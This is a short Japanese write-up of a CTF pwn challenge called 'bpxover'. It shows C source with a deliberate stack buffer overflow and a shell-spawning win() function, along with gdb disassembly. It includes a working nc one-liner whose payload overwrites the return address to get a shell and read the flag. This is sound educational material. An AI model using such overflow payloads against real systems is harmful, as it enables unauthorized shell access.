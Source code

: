 # bpxover:pwn:100pts
C言語のコードの中にはアセンブリも書けるらしいです。え、そんなこと言ってる場合じゃないって？  
注意：bpxoverとbpxorは関連した問題です。 配布ファイルの差分を見ることをおすすめします。  
`nc chall.live.ctf.tsg.ne.jp 30006`  
[bpxover.tar.gz](bpxover.tar.gz)  

# Solution
接続先とソースが配布されている。  
ソースは以下のようであった。  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void win() {
    char *argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);
}

int main(void) {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);

    char buf[16];

    puts("hello :)");
    scanf("%s", buf);
    long x = strtoll(buf, NULL, 10);
    asm ("xor %0, %%rbp\n\t"
            :
    : "r" (x));

    return 0;
}
```
自明なBOFがあるためwinへ飛ばせばよい。  
```bash
$ gdb ./chall
~~~
gdb-peda$ checks
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$ disas win
Dump of assembler code for function win:
   0x00000000004011b6 <+0>:     endbr64
   0x00000000004011ba <+4>:     push   rbp
   0x00000000004011bb <+5>:     mov    rbp,rsp
   0x00000000004011be <+8>:     sub    rsp,0x10
   0x00000000004011c2 <+12>:    lea    rax,[rip+0xe3b]        # 0x402004
   0x00000000004011c9 <+19>:    mov    QWORD PTR [rbp-0x10],rax
   0x00000000004011cd <+23>:    mov    QWORD PTR [rbp-0x8],0x0
   0x00000000004011d5 <+31>:    lea    rax,[rbp-0x10]
   0x00000000004011d9 <+35>:    mov    edx,0x0
   0x00000000004011de <+40>:    mov    rsi,rax
   0x00000000004011e1 <+43>:    lea    rdi,[rip+0xe1c]        # 0x402004
   0x00000000004011e8 <+50>:    call   0x401090 <execve@plt>
   0x00000000004011ed <+55>:    nop
   0x00000000004011ee <+56>:    leave
   0x00000000004011ef <+57>:    ret
End of assembler dump.
gdb-peda$ q
$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb6\x11\x40\x00\x00\x00\x00";cat) | nc chall.live.ctf.tsg.ne.jp 30006
hello :)
ls
chall
flag
start.sh
cat flag
TSGLIVE{welcome_overflowwwwwwwwww}
```
flagが得られた。  
なにわろてんねんwwwww。  

## TSGLIVE{welcome_overflowwwwwwwwww}